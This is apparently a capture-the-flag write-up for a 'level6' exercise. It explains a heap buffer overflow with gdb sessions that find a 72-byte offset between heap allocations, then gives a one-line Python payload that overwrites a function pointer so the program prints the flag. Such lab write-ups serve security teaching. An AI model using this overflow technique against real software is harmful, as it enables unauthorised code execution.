 # level6

This time it's about heap buffer overflows.

There are 2 functions other than `main`:
- `m` simply prints "Nope"
- `n` call `cat` to display the flag

`main` has two calls to `malloc`, the first one to allocate a buffer, and the second one to store a pointer. It then stores the address of `m` in the second one before calling `strcpy` to copy the first argument into the buffer.

The attack will take advantage of the fact that the memory segments returned by `malloc` are adjacent. Just like a heap buffer overflow, we need to find how many bytes we need to overwrite to write over the address.

We can do it by setting breakpoints after each `malloc` call and displaying the value in `$eax`:
```gdb
(gdb) b *0x08048491
Breakpoint 1 at 0x8048491
(gdb) commands
Type commands for breakpoint(s) 1, one per line.
End with a line saying just "end".
>p (void *)$eax
>c
>end
(gdb) b *0x080484a1
Breakpoint 2 at 0x80484a1
(gdb) commands
Type commands for breakpoint(s) 2, one per line.
End with a line saying just "end".
>p (void *)$eax
>end
(gdb) r
Starting program: /home/user/level6/level6

Breakpoint 1, 0x08048491 in main ()
$1 = (void *) 0x804a008

Breakpoint 2, 0x080484a1 in main ()
$2 = (void *) 0x804a050
(gdb) p $2-$1
$3 = 72
```

Lets also not forget to get the address of `n`:
```gdb
(gdb) p n
$6 = {<text variable, no debug info>} 0x8048454 <n>
```

Now all we have to do is craft our payload, and give it as a parameter!

```bash
./level6 $(python -c 'print "A" * 72 + "\x08\x04\x84\x54"[::-1]')
```

Pretty easy overall. 😎
